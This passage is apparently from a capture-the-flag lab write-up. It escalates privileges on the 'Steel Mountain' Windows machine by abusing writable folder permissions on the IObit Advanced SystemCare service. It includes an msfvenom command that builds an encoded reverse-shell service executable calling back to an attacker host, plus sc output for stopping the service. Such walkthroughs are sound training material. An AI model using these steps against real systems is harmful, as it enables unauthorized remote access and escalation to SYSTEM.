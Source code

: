 ```
        SERVICE_START_NAME : LocalSystem

C:\Program Files (x86)\IObit>icacls "Advanced SystemCare"
icacls "Advanced SystemCare"
Advanced SystemCare STEELMOUNTAIN\bill:(I)(OI)(CI)(RX,W)
                    NT SERVICE\TrustedInstaller:(I)(F)
                    NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                    NT AUTHORITY\SYSTEM:(I)(F)
                    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                    BUILTIN\Users:(I)(RX)
                    BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                    CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

<br />

Looks like this is indeed an interactive service and our user has read, write and execute permissions on the containing folder, meaning we can exploit it with a reverse shell.

<br />
<br />

## 5. Privilege escalation without Metasploit

<br />

Create a Windows reverse shell payload using `msfvenom` as instructed in Task 3.

```
msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

<br />

Use the relevant `sc` command, also provided on the task, to stop the service on the target machine.

```
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
